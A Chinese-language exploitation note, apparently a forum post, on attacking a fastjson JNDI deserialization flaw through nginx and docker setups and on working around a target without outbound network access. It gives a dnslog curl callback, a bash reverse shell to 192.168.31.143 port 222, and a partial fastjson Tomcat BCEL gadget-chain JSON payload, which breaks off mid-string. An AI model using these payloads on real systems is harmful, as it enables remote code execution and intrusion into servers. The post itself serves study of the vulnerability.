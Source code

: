 分成两种情况

1）nginx-&gt;服务器  
两条payload 分别打过去

```php
执行dnslog
curl http://xxx.ceye.io
反弹shell
bash -i >& /dev/tcp/192.168.31.143/222 0>&1
```

两条都没有回显  
第⼀条只有dns有回显，没有http回显  
第⼆条没接收到shell

2\) docker  
两条payload 分别打过去

```php
curl http://192.168.31.143:222
bash -i >& /dev/tcp/192.168.31.143/222 0>&1
```

只有第⼀条回现，第⼆条没接收到shell

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-823da4c711661f3eeecbf437d1402d86f3d40e82.png)  
jndi服务有连接记录

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-b2259c9bd7c5b77b9fb278c4aceb0671a288c7e6.png)  
\--&gt; 不出⽹：docker（映射端⼝导致）

不出⽹利⽤
-----

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-bf11e61210dfeae99ece5776543de40118016e9f.png)

参考⽂章：<https://xz.aliyun.com/t/12492>  
● Spring  
● Tomcat  
● abitis  
weblogic、jboss等⾮tomcat中间件且引⼊了ibatis组件

● c3p0  
<https://github.com/depycode/fastjson-c3p0>  
tomcat BECL payload

```php
{
 "name":
 {
 "@type" : "java.lang.Class",
 "val" : "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"
 },
 "x" : {
 "name": {
 "@type" : "java.lang.Class",
 "val" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
 },
 "y": {
 "@type":"com.alibaba.fastjson.JSONObject",
 "c": {
 "@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
 "driverClassLoader": {
 "@type" : "com.sun.org.apache.bcel.internal.util.Class
Loader"
 },
 "driverClassName":"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A",
```